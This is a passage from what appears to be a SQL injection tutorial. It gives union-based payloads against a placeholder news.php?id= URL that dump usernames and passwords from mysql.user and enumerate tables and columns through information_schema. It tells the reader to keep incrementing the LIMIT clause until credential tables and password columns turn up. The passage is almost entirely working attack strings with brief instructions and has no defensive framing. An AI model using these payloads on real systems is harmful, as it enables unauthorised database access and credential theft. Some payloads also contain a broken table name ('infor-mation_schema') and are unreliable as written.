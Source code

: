 > Now we get dislayed username:password on screen, i.e admin:admin or admin:somehash when you have this, you can login like admin or some superuser. If can’t guess the right table name, you can always try “mysql.user”, as per the following example:

http://server/news.php?id=5 union all select 1,concat(user,0x3a,password),3 from mysql.user/*

> MySQL 5

### For this we need “information_schema” table. It contains all tables and columns architecture of the database. To get the tables we use “table_name” and “information_schema.tables”.

Example:
~~~bash
http://server/news.php?id=5 union all select 1,table_name,3 from information_schema.tables/*
Here we replace the number 2 with “table_name” to get the first table from “information_schema”.tables displayed on the screen. Furthermore we will need to add LIMIT to the end of query to liste out al tables.
~~~

Example:
~~~bash
http://server/news.php?id=5 union all select 1,table_name,3 from infor-mation_schema.tables limit 0,1/*
NOTE: That we put 0,1 (To get 1 result starting from the 0th) now to view the second table, we change “limit 0,1” to “limit 1,1”.
~~~

Example:
~~~bash
http://server/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 1,1/*
The second table is displayed. If you want to do the same for the third table let’s move on using: “limit 2,1”
~~~

Example:
~~~bash
http://server/news.php?id=5 union all select 1,table_name,3 from information_schema.tables limit 2,1/*
Keep incrementing until you get some useful like db_admin, poll_user, auth, auth_user etc…
~~~

> To get the column names the method is similar. Here we use “column_name” and “infor-mation_schema.columns” as per the following example:
~~~bash
http://server/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 0,1/*
The first column is getting displayed so in order to move further and retrieve the second we will need once again change “limit 0,1” to “limit 1,1”.
~~~

Example:
~~~bash
http://server/news.php?id=5 union all select 1,column_name,3 from information_schema.columns limit 1,1/*
The second column is displayed, so keep incrementing until you get something like username, user, login, password, pass, passwd etc… If you want to display the column names for specific table use the following query:
~~~
